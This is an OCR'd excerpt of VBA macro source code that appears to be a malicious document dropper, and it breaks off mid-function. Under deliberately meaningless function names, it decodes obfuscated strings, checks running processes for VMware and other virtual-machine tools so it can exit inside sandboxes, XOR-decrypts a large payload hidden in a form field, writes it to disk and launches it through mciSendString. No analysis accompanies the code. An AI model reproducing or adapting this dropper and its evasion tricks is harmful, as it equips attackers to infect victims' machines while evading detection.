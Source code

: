 ```VB
Function rigmarole(es As String) As String
    Dim furphy As String
    Dim c As Integer
    Dim s As String
    Dim cc As Integer
    furphy = ""
    For i = 1 To Len(es) Step 4
        c = CDec("&H" & Mid(es, i, 2))
        s = CDec("&H" & Mid(es, i + 2, 2))
        cc = c - s
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function

Function folderol()
    Dim wabbit() As Byte
    Dim fn As Integer: fn = FreeFile
    Dim onzo() As String
    Dim mf As String
    Dim xertz As Variant
    
    onzo = Split(F.L, ".")
    
    If GetInternetConnectedState = False Then
        MsgBox "Cannot establish Internet connection.", vbCritical, "Error"
        End
    End If

    Set fudgel = GetObject(rigmarole(onzo(7)))
    Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48)
    For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
        If pos > 0 Then
            MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
            End
        End If
    Next
        
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ(rigmarole(onzo(0))) & rigmarole(onzo(1))
    Open mf For Binary Lock Read Write As #fn
      Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString(rigmarole(onzo(2)) & mf, 0&, 0, 0)
End Function

Function canoodle(panjandrum As String, ardylo As Integer, s As Long, bibble As Variant) As Byte()
    Dim quean As Long
    Dim cattywampus As Long
    Dim kerfuffle() As Byte
    ReDim kerfuffle(s)
    quean = 0
    For cattywampus = 1 To Len(panjandrum) Step 4
        kerfuffle(quean) = CByte("&H" & Mid(panjandrum, cattywampus + ardylo, 2)) Xor bibble(quean Mod (UBound(bibble) + 1))
        quean = quean + 1
```